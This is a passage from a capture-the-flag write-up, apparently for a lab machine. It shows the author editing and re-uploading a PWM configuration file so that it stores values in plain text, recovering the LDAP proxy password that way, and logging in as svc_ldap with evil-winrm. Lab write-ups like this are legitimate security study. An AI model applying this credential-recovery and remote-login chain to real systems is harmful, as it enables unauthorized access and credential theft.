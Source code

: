 ```
        <setting key="ldap.proxy.password" modifyTime="2022-08-11T01:46:23Z" profile="default" syntax="PASSWORD" syntaxVersion="0">
            <label>LDAP ⇨ LDAP Directories ⇨ default ⇨ Connection ⇨ LDAP Proxy Password</label>
            <value>ENC-PW:XXz3J3vRDrPonO9q2NCFL9Jx86SutkGHyTElj/GOE+pTxk2GtKovniOv7LEUDSxDTYfsZfkLaNHbjGfbQldz5EW7BqPxGqzMz+bEfyPIvA8=</value>
```
```
		If you wish for sensitive values in this configuration file to be stored unencrypted, set the property
		"storePlaintextValues" to "true".
```
# Uploading new PwmConfiguration.xml
Next step was to find where to change the `storePlaintextValues` parameter. After searching the control panel I found nothing of interest. I decided to take a chance and manually add the parameter into the configuration file with the intention of uploading it. Below is the modified version.

```
    <properties type="config">
        <property key="configIsEditable">true</property>
        <property key="storePlaintextValues">true</property>
        <property key="configEpoch">0</property>
        <property key="configPasswordHash">$2a$10$gC/eoR5DVUShlZV4huYlg.L2NtHHmwHIxF3Nfid7FfQLoh17Nbnua</property>
    </properties>
```

After uploading the new configuration it was possible to quickly log back in and download the configuration before any clean up script reverted the change. Below is the plain text output of the file.

```
        <setting key="ldap.proxy.password" modifyTime="2022-08-11T01:46:23Z" profile="default" syntax="PASSWORD" syntaxVersion="0">
            <label>LDAP ⇨ LDAP Directories ⇨ default ⇨ Connection ⇨ LDAP Proxy Password</label>
            <value>PLAIN:lDaP_1n_th3_*****!</value>
```
# Logging in as svc_ldap
The password recovered from the PWM configuration file allowed authentication as the svc_ldap user as shown below. The user flag was captured after logging in with `evil-winrm`.

```
┌─[parrot@parrotos]─[~/htb/authority]
└──╼ $evil-winrm -i 10.129.102.151 -u svc_ldap -p 'lDaP_1n_th3_*****!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_ldap\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc_ldap> cd Desktop
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> ls


    Directory: C:\Users\svc_ldap\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
```